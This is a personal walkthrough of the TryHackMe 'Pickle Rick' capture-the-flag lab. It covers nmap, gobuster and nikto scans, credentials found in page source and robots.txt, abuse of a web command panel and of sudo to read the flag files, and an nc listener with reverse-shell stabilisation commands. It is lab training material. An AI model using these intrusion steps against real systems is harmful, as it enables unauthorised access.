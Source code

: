 # TryHackMe Pickle Rick -CTF

## Local machine info:
- IP: 10.10.36.232

## Target info:
- IP: 10.10.179.14 
- Ubuntu x64
- Open ports: 
  - 22 (ssh) 
  - 80 (http) Apache httpd 2.4.18
- Found endpoints: 
  - /assets
  - /server-status
  - /login.php
  - /robots.txt --> Wubbalubbadubdub
  - /clue.txt --> "Look around the file system for the other ingredient"
  - portal.php
  - denied.php

## Flags:

- mr. meeseek hair
- 

## Credentials

- username: R1ckRul3s
- password: Wubbalubbadubdub

## Steps taken:

- nmap scan: <code>nmap -vv -sV 10.10.179.14</code>
  - Discovered open ports 22 and 80

- gobuster scans: 
  - <code>gobuster dir -u http://10.10.179.14 -w ../../usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt</code>
  - <code>gobuster dir -u http://10.10.179.14 -w ../../usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x txt</code>
    - Found /clue.txt and /robots.txt, which had only the word 'Wubbalubbadubdub' (Possible password...)
    - In hindsight, running gobuster with -x php,txt would have revealed the robots.txt, clue.txt, login.php, portal.php and denied.php page. 

- Look through page source:
  - Found commented username: R1ckRul3s

- nikto scan: <code>nikto -Display 1234EP -o nikto-results.txt -Format txt -Tuning 123bde -host 10.10.179.14</code>
  - Found a login page: /login.php
  - Login successful with credentials R1ckRul3s : Wubbalubbadubdub

- Successful login revealed a command panel at /portal.php
  - ls reveals contents of the current directory, including Sup3rS3cretPickl3Ingred.txt. Trying to cat the contents displays error saying command is disabled etc. --> downloaded the file with:
    - <code>wget http://10.10.179.14/Sup3rS3cretPickl3Ingred.txt</code>
    
    and read the first ingredient: **mr. meeseek hair**. Could have also used some of the following (*From John Hammond write-up video*):
      - <code>while read line; do echo $line; done < Sup3rS3cretPickl3Ingred.txt</code>
      - <code>grep . Sup3rS3cretPickl3Ingred.txt</code>
  - Second ingredient can be found by exploring the file system and discovering the hidden file at /home/rick/.second ingredient. Since cat is disabled, we can use:

    -<code>less /home/rick/"second ingredient"</code>
    
    to see the contents. Quotations are needed because the filename has a space (without quotations less tries to interpret the second word as a flag)
  - The last one can be found from /root -folder, but the default user can't read the contents. Checking user priviledges with <code>sudo -l</code> shows that we can, however, execute any command on the server. And so <code>sudo ls -la /root/</code> shows the final file "3rd.txt", and <code>sudo less /root/3rd.txt</code> can be used to view the contents. 

- Instead of using the UI command tool, a reverse shell could have been spawned by (*From John Hammond write-up video*):
  - First checking if python3 is installed on the box and executing python commands is possible with <code>python3 -c "print('hello)"</code>
  - Setting up a listener: <code>nc -lvnp 1234</code>
  - Executing (for example) the pentest monkeys python reverse shell in the UI command line
  - Stabilizing the default nc shell with: 
    - <code>python3 -c "import pty; pty.spawn('/bin/bash')"</code>
    - <code>ctrl + Z</code>
    - <code>stty raw -echo</code>
    - <code>fg</code>
    - <code>export TERM=xterm</code>
 